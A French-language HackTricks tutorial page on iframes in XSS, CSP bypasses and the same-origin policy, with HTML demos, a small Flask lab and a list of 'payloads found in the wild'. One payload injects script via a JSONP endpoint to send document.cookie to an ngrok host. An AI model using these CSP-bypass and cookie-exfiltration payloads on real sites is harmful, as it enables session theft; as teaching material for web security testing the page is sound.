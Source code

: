 # Iframes in XSS, CSP and SOP

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Expert de l'équipe rouge AWS de HackTricks)</strong></a><strong>!</strong></summary>

* Travaillez-vous dans une **entreprise de cybersécurité**? Voulez-vous voir votre **entreprise annoncée dans HackTricks**? ou voulez-vous avoir accès à la **dernière version du PEASS ou télécharger HackTricks en PDF**? Consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Découvrez [**La famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* **Rejoignez le** [**💬**](https://emojipedia.org/speech-balloon/) [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR au** [**dépôt hacktricks**](https://github.com/carlospolop/hacktricks) **et au** [**dépôt hacktricks-cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Iframes in XSS

Il existe 3 façons d'indiquer le contenu d'une page en iframed :

* Via `src` indiquant une URL (l'URL peut être de provenance croisée ou de même origine)
* Via `src` indiquant le contenu en utilisant le protocole `data:`
* Via `srcdoc` indiquant le contenu

**Accès aux variables parent et enfant**
```html
<html>
<script>
var secret = "31337s3cr37t";
</script>

<iframe id="if1" src="http://127.0.1.1:8000/child.html"></iframe>
<iframe id="if2" src="child.html"></iframe>
<iframe id="if3" srcdoc="<script>var secret='if3 secret!'; alert(parent.secret)</script>"></iframe>
<iframe id="if4" src="data:text/html;charset=utf-8,%3Cscript%3Evar%20secret='if4%20secret!';alert(parent.secret)%3C%2Fscript%3E"></iframe>

<script>
function access_children_vars(){
alert(if1.secret);
alert(if2.secret);
alert(if3.secret);
alert(if4.secret);
}
setTimeout(access_children_vars, 3000);
</script>
</html>
```

```html
<!-- content of child.html -->
<script>
var secret="child secret";
alert(parent.secret)
</script>
```
Si vous accédez au code HTML précédent via un serveur http (comme `python3 -m http.server`), vous remarquerez que tous les scripts seront exécutés (car il n'y a pas de CSP pour l'empêcher). **Le parent ne pourra pas accéder à la variable `secret` à l'intérieur de n'importe quel iframe** et **seuls les iframes if2 & if3 (qui sont considérés comme étant du même site) peuvent accéder au secret** dans la fenêtre d'origine.\
Notez comment if4 est considéré comme ayant une origine `null`.

### Iframes avec CSP <a href="#iframes_with_csp_40" id="iframes_with_csp_40"></a>

{% hint style="info" %}
Veuillez noter que dans les contournements suivants, la réponse à la page en iframed ne contient aucun en-tête CSP qui empêche l'exécution de JS.
{% endhint %}

La valeur `self` de `script-src` ne permettra pas l'exécution du code JS en utilisant le protocole `data:` ou l'attribut `srcdoc`.\
Cependant, même la valeur `none` du CSP permettra l'exécution des iframes qui mettent une URL (complète ou juste le chemin) dans l'attribut `src`.\
Il est donc possible de contourner le CSP d'une page avec:
```html
<html>
<head>
<meta http-equiv="Content-Security-Policy" content="script-src 'sha256-iF/bMbiFXal+AAl9tF8N6+KagNWdMlnhLqWkjAocLsk='">
</head>
<script>
var secret = "31337s3cr37t";
</script>
<iframe id="if1" src="child.html"></iframe>
<iframe id="if2" src="http://127.0.1.1:8000/child.html"></iframe>
<iframe id="if3" srcdoc="<script>var secret='if3 secret!'; alert(parent.secret)</script>"></iframe>
<iframe id="if4" src="data:text/html;charset=utf-8,%3Cscript%3Evar%20secret='if4%20secret!';alert(parent.secret)%3C%2Fscript%3E"></iframe>
</html>
```
Notez comment le **CSP précédent autorise uniquement l'exécution du script en ligne**.\
Cependant, **seuls les scripts `if1` et `if2` vont être exécutés mais seul `if1` pourra accéder au secret parent**.

![](<../../.gitbook/assets/image (372).png>)

Par conséquent, il est possible de **contourner un CSP si vous pouvez télécharger un fichier JS sur le serveur et le charger via un iframe même avec `script-src 'none'`**. Cela peut **éventuellement être fait en abusant d'un point de terminaison JSONP du même site**.

Vous pouvez tester cela avec le scénario suivant où un cookie est volé même avec `script-src 'none'`. Il suffit de lancer l'application et d'y accéder avec votre navigateur:
```python
import flask
from flask import Flask
app = Flask(__name__)

@app.route("/")
def index():
resp = flask.Response('<html><iframe id="if1" src="cookie_s.html"></iframe></html>')
resp.headers['Content-Security-Policy'] = "script-src 'self'"
resp.headers['Set-Cookie'] = 'secret=THISISMYSECRET'
return resp

@app.route("/cookie_s.html")
def cookie_s():
return "<script>alert(document.cookie)</script>"

if __name__ == "__main__":
app.run()
```
### Autres charges utiles trouvées dans la nature <a href="#other_payloads_found_on_the_wild_64" id="other_payloads_found_on_the_wild_64"></a>
```html
<!-- This one requires the data: scheme to be allowed -->
<iframe srcdoc='<script src="data:text/javascript,alert(document.domain)"></script>'></iframe>
<!-- This one injects JS in a jsonp endppoint -->
<iframe srcdoc='<script src="/jsonp?callback=(function(){window.top.location.href=`http://f6a81b32f7f7.ngrok.io/cooookie`%2bdocument.cookie;})();//"></script>
<!-- sometimes it can be achieved using defer& async attributes of script within iframe (most of the time in new browser due to SOP it fails but who knows when you are lucky?)-->
<iframe src='data:text/html,<script defer="true" src="data:text/javascript,document.body.innerText=/hello/"></script>'></iframe>
```
### Iframe sandbox

Le contenu dans un iframe peut être soumis à des restrictions supplémentaires grâce à l'attribut `sandbox`. Par défaut, cet attribut n'est pas appliqué, ce qui signifie qu'aucune restriction n'est en place.

Lorsqu'il est utilisé, l'attribut `sandbox` impose plusieurs limitations :

* Le contenu est traité comme s'il provenait d'une source unique.
* Toute tentative de soumission de formulaires est bloquée.
* L'exécution de scripts est interdite.
* L'accès à certaines APIs est désactivé.
* Il empêche les liens d'interagir avec d'autres contextes de navigation.
* L'utilisation de plugins via `<embed>`, `<object>`, `<applet>`, ou des balises similaires est interdite.
* La navigation du contexte de navigation de niveau supérieur du contenu par le contenu lui-même est empêchée.
* Les fonctionnalités déclenchées automatiquement, comme la lecture vidéo ou la mise au point automatique des contrôles de formulaire, sont bloquées.

La valeur de l'attribut peut être laissée vide (`sandbox=""`) pour appliquer toutes les restrictions mentionnées ci-dessus. Alternativement, elle peut être définie sur une liste de valeurs spécifiques séparées par des espaces qui exemptent l'iframe de certaines restrictions.
```html
<iframe src="demo_iframe_sandbox.htm" sandbox></iframe>
```
## Iframes dans SOP

Consultez les pages suivantes :

{% content-ref url="../postmessage-vulnerabilities/bypassing-sop-with-iframes-1.md" %}
[bypassing-sop-with-iframes-1.md](../postmessage-vulnerabilities/bypassing-sop-with-iframes-1.md)
{% endcontent-ref %}

{% content-ref url="../postmessage-vulnerabilities/bypassing-sop-with-iframes-2.md" %}
[bypassing-sop-with-iframes-2.md](../postmessage-vulnerabilities/bypassing-sop-with-iframes-2.md)
{% endcontent-ref %}

{% content-ref url="../postmessage-vulnerabilities/blocking-main-page-to-steal-postmessage.md" %}
[blocking-main-page-to-steal-postmessage.md](../postmessage-vulnerabilities/blocking-main-page-to-steal-postmessage.md)
{% endcontent-ref %}

{% content-ref url="../postmessage-vulnerabilities/steal-postmessage-modifying-iframe-location.md" %}
[steal-postmessage-modifying-iframe-location.md](../postmessage-vulnerabilities/steal-postmessage-modifying-iframe-location.md)
{% endcontent-ref %}

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Travaillez-vous dans une **entreprise de cybersécurité** ? Voulez-vous voir votre **entreprise annoncée dans HackTricks** ? ou voulez-vous avoir accès à la **dernière version du PEASS ou télécharger HackTricks en PDF** ? Consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Découvrez [**La famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* **Rejoignez le** [**💬**](https://emojipedia.org/speech-balloon/) [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**repo hacktricks**](https://github.com/carlospolop/hacktricks) **et** [**repo hacktricks-cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
